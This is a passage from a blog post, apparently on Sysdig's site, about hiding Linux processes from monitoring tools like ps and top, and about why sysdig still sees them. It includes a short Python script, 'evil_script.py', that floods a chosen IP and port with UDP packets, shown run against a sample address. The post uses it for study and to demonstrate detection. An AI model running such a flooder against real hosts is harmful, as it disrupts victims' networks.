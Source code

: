 ```yaml
---
ID: 331
post_title: >
  Hiding Linux Processes For Fun And
  Profit
author: Gianluca Borello
post_excerpt: ""
layout: post
permalink: >
  https://sysdigrp2rs.wpengine.com/blog/hiding-linux-processes-for-fun-and-profit/
published: true
post_date: 2014-08-28 02:42:16
---
```

## Introduction

The other day I was looking at the output of `top` on my machine, and I wondered: how hard would it be to hide specific processes and/or network connections from traditional monitoring tools like `ps`, `top`, `lsof`, …? I decided to kill a couple hours and try to hack together a solution. In this post, I’ll show you some of the answers I came up with, and some proof of concept code to implement this. I'll also show that sysdig is not susceptible to my hack, and explain why.

The goal that I want to achieve is to deliberately hide a simple and malicious Python script (I’ll call it `evil_script.py`) that does some damage to my system, saturating CPU and network by sending UDP packets towards a poor victim:

    #!/usr/bin/python
    import socket
    import sys
     
    def send_traffic(ip, port):
         print "Sending burst to " + ip + ":" + str(port)
         sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
         sock.connect((ip, port))
         while True:
             sock.send("I AM A BAD BOY") 
     
    if len(sys.argv) != 3:
         print "Usage: " + sys.argv[0] + " IP PORT"
         sys.exit() 
     
    send_traffic(sys.argv[1], int(sys.argv[2])) Let’s go! 

## The Baseline Behavior

I’ll start by running this:

    gianluca@sid:~$ ./evil_script.py 1.2.3.4 666
    Sending burst to 1.2.3.4:666

If you run it, you’ll see it will quickly saturate your system resources. Perfect use case for starting the analysis. Let’s confirm that the process is there and eating my CPU, using `ps`:
